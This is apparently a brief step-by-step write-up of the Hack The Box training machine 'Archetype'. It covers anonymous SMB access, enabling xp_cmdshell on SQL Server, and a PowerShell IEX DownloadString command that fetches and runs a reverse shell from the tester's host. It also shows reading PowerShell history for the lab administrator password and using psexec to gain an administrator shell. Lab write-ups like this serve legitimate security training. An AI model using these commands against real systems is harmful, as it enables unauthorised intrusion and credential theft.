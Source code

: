# Archetype

https://www.hackthebox.eu/home/start

## Writeup

1. Scan smb with `nmap`
2. Connect to anonymous SMB
3. Use `smbclient -N \\\\10.10.10.27\\backups` to get SQL password
4. Connect to SQL with `impacket-mssqlclient ARCHETYPE/sql_svc@10.10.10.27 -windows-auth` and enable `xp_cmdshell`
5. Host HTTP server on port 80 to host reverse shell `shell.ps1` with `python3 -m http.server 80`
6. Host netcat listener on port 443 with `ufw allow from 10.10.10.27 proto tcp to any port 80,443` and `nc -lvnp 443`
7. Use `xp_cmdshell` to run `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.65/shell.ps1\");"`
8. Switch back to netcat and get powershell creds from `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (`net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!` used previously)
9. Run `impacket-psexec administrator@10.10.10.27` with password `MEGACORP_4dm1n!!` to get root powershell.
10. Syrup?